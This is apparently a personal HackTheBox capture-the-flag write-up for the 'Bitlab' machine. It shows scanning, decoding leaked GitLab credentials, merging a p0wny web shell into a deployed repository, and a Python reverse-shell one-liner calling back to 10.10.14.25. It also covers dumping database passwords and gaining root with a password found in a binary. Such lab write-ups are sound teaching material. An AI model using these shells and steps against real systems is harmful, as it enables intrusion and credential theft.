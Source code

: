 ```yaml
---
layout: post
title: HackTheBox.eu Machine Notes - Bitlab
---
```


The below are the notes I made while working on the machine "Bitlab". Enjoy :)

## Details
- https://www.hackthebox.eu/home/machines/profile/207
- **10.10.10.114**

## User

### NMAP Results
Command:
```
┌─[idomino@parrot]─[~]
└──╼ (base) $nmap -p0-65535 -sV -v 10.10.10.114
```

Results:
```
Nmap scan report for 10.10.10.114
Host is up (0.068s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gitlab Foothold

Port 80 runs a GitLab instance, and we are presented with a login screen.

The help page: http://10.10.10.114/help/ has listing enabled.
Also there is a timestamp for bookmarks.html: 2019-07-30. This gives us an idea about the version.

Looked at the bookmarks.html and decoded the base64 pictures, all of them are just pngs, but the "GitLab Login" javascript is interesting.
When decoded:
```
javascript:(function(){ var _0x4b18=["value","user_login","getElementById","clave","user_password","11des0081x"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
``` 
Could these be valid creds?
```
user: clave
pass: 11des0081x
```

Yes, they work on the GitLab login :)

### GitLab Recon

The user has a snippet saved (terrible choice of login/password for a DB...):
```
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

After merge, the repository gets deployed to http://10.10.10.114/profile/

### www-data

Managed to merge in a p0wny-shell and got access as www-data (http://10.10.10.114/profile/macska.php)

Can use this to initate reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I wanted to see the results of a php file (based on gitlab comments):
```
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
$myarray = pg_fetch_all($result);
print_r($myarray);
?>
```

Decided to base64 encode it, and create it on the machine like this:
```
echo PD9waHAKJGRiX2Nvbm5lY3Rpb24gPSBwZ19jb25uZWN0KCJob3N0PWxvY2FsaG9zdCBkYm5hbWU9cHJvZmlsZXMgdXNlcj1wcm9maWxlcyBwYXNzd29yZD1wcm9maWxlcyIpOwokcmVzdWx0ID0gcGdfcXVlcnkoJGRiX2Nvbm5lY3Rpb24sICJTRUxFQ1QgKiBGUk9NIHByb2ZpbGVzIik7CiRteWFycmF5ID0gcGdfZmV0Y2hfYWxsKCRyZXN1bHQpOwpwcmludF9yKCRteWFycmF5KTsKPz4K | base64 -d > test.php
```

Once this is done, we can run it with php command line:
```
$ php -f test.php
Array
(
    [0] => Array
        (
            [id] => 1
            [username] => clave
            [password] => c3NoLXN0cjBuZy1wQHNz==
        )

)
```

Is this a valid cred for user?
```
sshpass -p c3NoLXN0cjBuZy1wQHNz== ssh clave@10.10.10.114
```

### Getting User

It is a valid cred :)

```
┌─[idomino@parrot]─[~/Workspace_HTB/Bitlab]
└──╼ (base) $sshpass -p c3NoLXN0cjBuZy1wQHNz== ssh clave@10.10.10.114
Last login: Thu Aug  8 14:40:09 2019
clave@bitlab:~$ whoami
clave
clave@bitlab:~$ pwd
/home/clave
clave@bitlab:~$ cat user.txt 
1e3fd81ec3aa2f1462370ee3c20b8154
clave@bitlab:~$ 
```

## Root

### Linux Recon

There is a suspicious file, which I grabbed:
```
┌─[idomino@parrot]─[~/Workspace_HTB/Bitlab]
└──╼ (base) $scp scp://clave@10.10.10.114//home/clave/RemoteConnection.exe .
clave@10.10.10.114's password: 
RemoteConnection.exe                                                                              100%   14KB 387.3KB/s   00:00 
```

Using x32dbg on a Windows VM I have found a suspiciously interesting string :)
```
edi=012FFE24 &"-ssh root@gitlab.htb -pw \"Qf7]8YSV.wDNF*[7d?j&eD4^\""
```

Translating this to an ssh command:

```
sshpass -p "Qf7]8YSV.wDNF*[7d?j&eD4^" ssh root@10.10.10.114
```

And it works :)

```
┌─[idomino@parrot]─[~]
└──╼ (base) $sshpass -p "Qf7]8YSV.wDNF*[7d?j&eD4^" ssh root@10.10.10.114
Last login: Fri Sep 13 14:11:14 2019
root@bitlab:~# cd /root
root@bitlab:~# cat root.txt
8d4cc131757957cb68d9a0cddccd587c
root@bitlab:~# 
```
